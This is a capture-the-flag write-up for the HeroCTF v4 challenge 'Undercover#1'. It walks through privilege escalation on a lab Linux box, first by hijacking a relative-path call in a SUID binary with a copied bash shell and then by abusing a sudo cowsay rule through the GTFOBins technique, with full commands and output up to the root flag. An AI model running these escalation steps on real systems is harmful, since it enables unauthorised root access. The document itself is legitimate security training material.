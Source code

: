 # HeroCTF v4

## System

### Undercover#1

**Difficulty:** Easy

**Statement:** You have been recruited by the CEO of Hero & Co. to test their security. But before handing you out the assignement, the asked you have to prove yourself, and escalate your privileges on this test system all the way to root.

The base credentials are: `user1:password123`

***

Once connected to the env with the default credentials, I start by listing the files in the home directory :

```
# user1@d9551dfad93a:~$ ls -alh
total 928K
drwxr-xr-x 1 user1 user1 4.0K May 28 08:24 .
drwxr-xr-x 1 root  root  4.0K May 28 02:58 ..
lrwxrwxrwx 1 root  root     9 May 28 02:58 .bash_history -> /dev/null
-rw-r--r-- 1 user1 user1  220 May 28 02:58 .bash_logout
-rw-r--r-- 1 user1 user1 3.7K May 28 02:58 .bashrc
drwx------ 2 user1 user1 4.0K May 28 08:22 .cache
-rw-r--r-- 1 user1 user1  807 May 28 02:58 .profile
-rw-rw-r-- 1 user1 user1  165 May 28 08:24 .wget-hsts
-rwsr-sr-x 1 user2 user2 894K May 28 02:51 hmmm
```

We can see that user1 can execute the SUID binary **hmmm** owned by user2.

So I run the binary to see what happens :

```
# user1@d9551dfad93a:~$ ./hmmm
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
sh: 1: ./WTFFFFF: not found
```

We can see that the binary tries to execute the `./WTFFFFF` file with the relative path.

So I decide to copy `/bin/bash` in the home, rename it **WTFFFFF** and execute it to privesc to user2 :

```
# user1@d9551dfad93a:~$ cp /bin/bash ./WTFFFFF
# user1@d9551dfad93a:~$ ./hmmm
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
# user2@d9551dfad93a:~$ id
uid=1001(user2) gid=1000(user1) groups=1000(user1)
```

Once on the user2 shell, I list the authorized commands in `/etc/sudoers` :

```
# user2@d9551dfad93a:/home/user2$ sudo -l
Matching Defaults entries for user2 on d9551dfad93a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on d9551dfad93a:
    (root) NOPASSWD: /usr/games/cowsay
```

I go to GTFOBins and I see that it is possible to privesc with the binary cowsay: https://gtfobins.github.io/gtfobins/cowsay/

I just have to reproduce the PoC :

```
# user2@d9551dfad93a:/tmp$ TF=$(mktemp)
# user2@d9551dfad93a:/tmp$ echo 'exec "/bin/bash";' >$TF
# user2@d9551dfad93a:/tmp$ sudo /usr/games/cowsay -f $TF x
# root@d9551dfad93a:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
Now root, I can cat the flag in `/root` :

```
# root@d9551dfad93a:/tmp# cat /root/flag.txt	
Hero{B4ck_2_b4s1cs}
```

Flag: Hero{B4ck_2_b4s1cs}
